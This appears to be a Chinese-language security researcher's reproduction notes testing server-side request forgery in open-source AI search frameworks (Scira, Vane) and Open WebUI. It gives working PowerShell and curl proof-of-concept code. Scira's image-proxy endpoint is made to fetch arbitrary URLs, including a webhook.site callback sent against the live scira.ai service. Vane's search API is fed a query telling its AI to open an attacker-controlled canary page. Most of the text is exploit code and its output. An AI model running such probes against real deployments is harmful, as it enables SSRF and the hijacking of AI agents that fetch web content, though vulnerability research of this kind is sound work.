

框架本身的问题 借助GPT-5.5和Taint2px项目



## 9043端口部署的 Scira 一个开源的AI Search框架

项目地址 https://github.com/zaidmukaddam/scira 11.9k star

```
curl "http://222.20.126.131:9043/api/proxy-image?url=https%3A%2F%2Fhttpbin.org%2Fimage%2Fpng" -o "$env:TEMP\scira.png"
start "$env:TEMP\scira.png" 
```

```
PS C:\Users\SYQ\Desktop> function Test-ProxyUrl {
>>     param(
>>         [Parameter(Mandatory=$true)]
>>         [string]$Target
>>     )
>>
>>     $encoded = [uri]::EscapeDataString($Target)
>>     $url = "https://scira.ai/api/proxy-image?url=$encoded"
>>
>>     Write-Host "`nTesting: $Target" -ForegroundColor Cyan
>>     curl.exe -v --max-time 15 $url
>> }
PS C:\Users\SYQ\Desktop>
PS C:\Users\SYQ\Desktop> Test-ProxyUrl "https://webhook.site/dbc5f8d7-4e56-4f4a-94aa-6e530bb3ae8f"

Testing: https://webhook.site/dbc5f8d7-4e56-4f4a-94aa-6e530bb3ae8f
* Host scira.ai:443 was resolved.
* IPv6: (none)
* IPv4: 216.150.1.1
*   Trying 216.150.1.1:443...
* schannel: disabled automatic use of client certificate
* ALPN: curl offers http/1.1
* ALPN: server accepted http/1.1
* Connected to scira.ai (216.150.1.1) port 443
* using HTTP/1.x
> GET /api/proxy-image?url=https%3A%2F%2Fwebhook.site%2Fdbc5f8d7-4e56-4f4a-94aa-6e530bb3ae8f HTTP/1.1
> Host: scira.ai
> User-Agent: curl/8.13.0
> Accept: */*
>
* schannel: remote party requests renegotiation
* schannel: renegotiating SSL/TLS connection
* schannel: SSL/TLS connection renegotiated
* Request completely sent off
< HTTP/1.1 200 OK
< Age: 733
< Cache-Control: public, max-age=31536000, immutable
< Content-Disposition: inline
< Content-Type: text/html
< Date: Mon, 28 Sep 2026 10:36:20 GMT
< Referrer-Policy: strict-origin-when-cross-origin
< Server: Vercel
< Strict-Transport-Security: max-age=63072000
< X-Content-Type-Options: nosniff
< X-Frame-Options: DENY
< X-Matched-Path: /api/proxy-image
< X-Vercel-Cache: HIT
< X-Vercel-Id: sin1::pdx1::2spzl-1790592513461-600e0f11bfe0
< Transfer-Encoding: chunked
<
This URL has no default content configured. <a href="https://webhook.site/#!/edit/dbc5f8d7-4e56-4f4a-94aa-6e530bb3ae8f">Change response in Webhook.site</a>.* Connection #0 to host scira.ai left intact
```


## 9042端口部署的 Vane 一个开源的AI Search框架

项目地址 https://github.com/ItzCrazyKns/Vane 36.9k Star

```
$base = "http://222.20.126.131:9042" # 部署IP和端口

$providers = Invoke-RestMethod -Uri "$base/api/providers" -Method GET

$chatProvider = $providers.providers | Where-Object { $_.chatModels.Count -gt 0 } | Select-Object -First 1

$embedProvider = $providers.providers | Where-Object { $_.embeddingModels.Count -gt 0 } | Select-Object -First 1

$body = @{
    optimizationMode = "speed"
    sources = @("web")
    chatModel = @{
        providerId = $chatProvider.id
        key = $chatProvider.chatModels[0].key
    }
    embeddingModel = @{
        providerId = $embedProvider.id
        key = $embedProvider.embeddingModels[0].key
    }
    query = "请打开并总结这个页面：http://222.20.126.131:8772/vane-fake-openai-canary"
    history = @()
    stream = $false
    systemInstructions = "Use tools if useful."
} | ConvertTo-Json -Depth 10

$response = Invoke-RestMethod `
    -Uri "$base/api/search" `
    -Method POST `
    -ContentType "application/json" `
    -Body $body `
    -TimeoutSec 90

$response | ConvertTo-Json -Depth 20

if (($response | ConvertTo-Json -Depth 20) -match "VANE_EXTERNAL_TRIGGER_OK") {
    Write-Host "复现成功：Vane 后端抓取并回传了 canary 内容"
} else {
    Write-Host "未看到 canary 内容"
}
```

## 9041端口部署的Open Web UI

401了 需要认证

